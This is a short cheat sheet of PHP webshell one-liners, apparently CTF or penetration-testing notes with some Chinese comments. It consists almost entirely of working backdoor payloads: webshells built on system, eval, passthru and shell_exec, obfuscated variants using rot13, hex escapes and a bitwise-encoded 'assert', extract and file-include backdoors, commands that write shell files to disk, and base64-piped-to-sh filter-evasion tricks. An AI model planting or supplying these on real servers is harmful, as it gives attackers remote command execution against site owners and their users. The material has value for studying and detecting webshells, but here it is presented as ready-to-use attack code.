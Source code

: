 
# Webshell
```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
// 構造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上傳
// 把暫存檔include進來
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// xor backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo導出一句話

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

A=fl;B=ag;cat $A$B

```
